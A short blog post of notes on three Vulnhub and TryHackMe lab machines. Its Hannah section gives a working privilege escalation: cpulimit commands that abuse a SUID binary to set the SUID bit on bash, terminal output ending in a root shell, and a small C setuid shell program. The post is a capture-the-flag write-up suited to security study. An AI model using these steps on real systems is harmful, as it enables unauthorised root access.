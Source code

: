 ```yaml
---
layout: post
title:  "Vulnhub & THM notes"
date:   2020-09-13 20:00:00 +1000
category: hacking
---
```


## Introduction
I've recently completed [NULLY CYBERSECURITY: 1](https://www.vulnhub.com/entry/nully-cybersecurity-1,549/) and [ONSYSTEM: SHELLDREDD #1 HANNAH](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/) from Vulnhub and Poster from TryHackMe. These are some brief thoughts about each one.

## Nully
This was great; I really enjoyed it. I will probably write it up separately. But essentially it's three separate servers/services (Mail, Web and DB) and you pivot to the Web and DB after you've pwned the Mail server - I did that with SSH port forwarding for the Web server. Definitely worth checking out.

## Poster
This was an easy THM room; essentially it's default creds on a web-facing **postgresql** installation which allows for RCE (and a shell) via Metasploit. The privesc is finding some creds in a PHP config file; pretty simple.

## Hannah
So this was an SSH private key in FTP with anonymous login for the foothold; trivial. The privesc was via */usr/bin/cpulimit* with the SUID bit set. [GTFObins](https://gtfobins.github.io/gtfobins/cpulimit/) doesn't show the method for SUID for this binary; here are two I found:

{% highlight shell %}
cd /tmp  
cpulimit -l 100 -f mkdir /something  
cpulimit -l 100 -f chmod 4755 /usr/bin/bash  
cpulimit -l 100 -f cp /usr/bin/bash /something  
cpulimit -l 100 -f chmod +s /something/bash  
cd /something  
./bash -p  
{% endhighlight %}

This is making a local copy of bash; similar techniques are shown for other SUID binaries on GTFOBins, just not for this one. 

In practice, it looks like this:

{% highlight shell %}
hannah@ShellDredd:~/.ssh$ cd /tmp  
hannah@ShellDredd:/tmp$ cpulimit -l 100 -f mkdir /something  
Process 17132 detected  
Child process is finished, exiting...  
hannah@ShellDredd:/tmp$ cpulimit -l 100 -f chmod 4755 /usr/bin/bash  
Process 17134 detected  
Child process is finished, exiting...  
hannah@ShellDredd:/tmp$ cpulimit -l 100 -f cp /usr/bin/bash /something  
Process 17136 detected  
Child process is finished, exiting...  
hannah@ShellDredd:/tmp$ cpulimit -l 100 -f chmod +s /something/bash  
Process 17138 detected  
Child process is finished, exiting...  
hannah@ShellDredd:/tmp$ cd /something  
hannah@ShellDredd:/something ./bash -p  
bash-5.0# whoami  
root  
{% endhighlight %}

The second method is making a SUID binary of our own and then running it via cpulimit. The binary looks like this:

{% highlight c %}
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

int main(void)
{
	setuid(0), setgid(0); system("/bin/bash");
}
{% endhighlight %}

There are other variants of this code, but it's essentially setuid to zero and call bash (or a reverse shell). There is no compiler on the box so you have to compile it on your attack machine and upload the binary. Then you can run:

``
hannah@ShellDredd:~/.ssh$ cpulimit -l 95 -f ./shell
``

Apart from this slightly different SUID binary, it's fairly simple.
